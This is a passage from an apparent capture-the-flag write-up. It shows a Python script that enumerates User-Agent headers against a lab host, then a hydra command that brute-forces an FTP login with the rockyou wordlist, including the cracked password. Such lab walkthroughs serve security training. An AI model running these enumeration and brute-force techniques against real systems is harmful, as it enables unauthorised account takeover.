 ```
import requests 
import string
session = requests.session()

url = "http://10.10.209.195"



for char in string.ascii_uppercase:
	headers = {'User-Agent': char}

	response = session.get(url, headers=headers)
	print ("*********************", char, "************************")
	print (response.text)
```

From the output of this script we can see that for request with `C` as user-agent the response was different:

```
Attention *****, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

From this output, we get the agent's name which can be submitted as the answer to third question.

### [Task 3] Hash cracking and brute-force                                

1. ##### FTP password

From the last question we know that Agent C's password is weak and also we know his name. So, we can now use `hydra` to bruteforce their password:

 ```
tester@kali:~$ hydra -l ***** -P /usr/share/wordlists/rockyou.txt 10.10.209.195 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-13 04:44:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.209.195:21/
[STATUS] 149.00 tries/min, 149 tries in 00:01h, 14344250 to do in 1604:31h, 16 active
[21][ftp] host: 10.10.209.195   login: *****   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-13 04:46:35

 ```
